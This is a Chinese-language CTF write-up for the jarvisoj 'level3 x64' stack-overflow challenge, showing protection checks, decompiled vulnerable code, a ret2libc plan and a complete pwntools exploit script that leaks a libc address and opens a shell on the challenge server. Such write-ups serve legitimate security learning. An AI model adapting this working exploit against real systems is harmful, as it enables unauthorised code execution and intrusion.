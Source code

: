 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3 x64
date: 2022-3-28 10:25:20
permalink: /pages/2e1547494524d19e
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

vulnerable_function函数如下

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  write(1, "Input:\n", 7uLL);
  return read(0, buf, 0x200uLL);
}
```



## 思路分析

1. 目前信息：
   - `vulnerable_function`函数可溢出
   - 无`system`、`/bin/sh`与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位`ret2libc`解法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
io = remote('node4.buuoj.cn', 29803)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
pop_rdi_ret = 0x4006b3
pop_rsi_r15_ret = 0x4006b1
ret=0x400499
payload = flat(['a'*padding, pop_rdi_ret, 1, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, write_plt,vulnerable_function])
# 少设置了write函数的第三个参数rdx为6，但这里不影响，执行write前上一个write的第三个参数rdx为7，中间并没有改变这里可以复用
io.sendafter('Input:\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.send(payload)
io.interactive()
```